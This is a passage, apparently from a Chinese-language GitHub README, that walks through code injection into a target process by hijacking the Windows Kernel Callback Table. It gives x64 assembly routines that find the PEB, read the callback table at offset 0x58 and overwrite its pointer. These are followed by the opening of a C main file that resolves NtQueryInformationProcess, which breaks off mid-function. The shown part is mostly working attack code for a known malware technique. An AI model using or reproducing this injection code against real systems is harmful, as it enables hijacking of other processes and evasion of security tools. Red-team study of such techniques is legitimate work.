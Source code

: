 
此过程演示了通过 Kernel Callback Table 操作进行分步代码注入，从而提供对目标进程上下文中执行的完全控制。

* * *

帮助程序程序集代码
---------

为了增强注入过程，我们使用了 helper.asm 中定义的一些汇编函数。这些函数帮助我们找到 PEB 并更有效地操作 Kernel Callback Table。

### 定位PEB

此函数通过访问 gs 段寄存器来检索当前进程的 PEB 地址，该寄存器指向 x64 体系结构中的线程信息块 （TIB）。

    LocatePEB PROC
        mov rax, qword ptr gs:[60h] ; Access PEB in x64
        ret
    LocatePEB ENDP


### UnhingCallbackTable

给定 RCX 寄存器中的 PEB 地址，此函数通过访问 PEB 结构中偏移量为 0x58 的内存来检索内核回调表的地址。

    ResolveKernelCallbackTable PROC
        mov rax, qword ptr [rcx + 58h] ; Offset for KernelCallbackTable in PEB (0x58)
        ret
    ResolveKernelCallbackTable ENDP


### 写入内核回调表

该函数通过向指定的偏移量写入新地址来更新 PEB 中的 Kernel Callback Table 地址。

    WriteKernelCallbackTable PROC
        mov qword ptr [rcx + 58h], rdx    ; Write the new KernelCallbackTable address
        ret
    WriteKernelCallbackTable ENDP


这些汇编函数简化了与 PEB 和内核回调表交互的过程，使我们的 C++ 代码更简洁、更高效。

* * *

把它们放在一起！
--------

main.c

    #include <stdio.h>
    #include <windows.h>
    #include "struct.h"
    #include "helper.h"
    
    void LoadNtQueryInformationProcess()
    {
        printf( COLOR_YELLOW_BOLD "[*] Loading NtQueryInformationProcess...\n" COLOR_RESET );
        HMODULE hNtdll = GetModuleHandle( L"ntdll.dll" );
        if ( hNtdll )
        {
            NtQueryInformationProcess = ( PFN_NTQUERYINFORMATIONPROCESS ) GetProcAddress( hNtdll, "NtQueryInformationProcess" );
            if ( NtQueryInformationProcess )
            {
                printf( COLOR_GREEN_BOLD "[+] NtQueryInformationProcess loaded successfully at address: 0x%p\n" COLOR_RESET, NtQueryInformationProcess );
            }
            else
            {
                printf( COLOR_RED_BOLD "\t[-] Failed to resolve NtQueryInformationProcess address.\n" COLOR_RESET );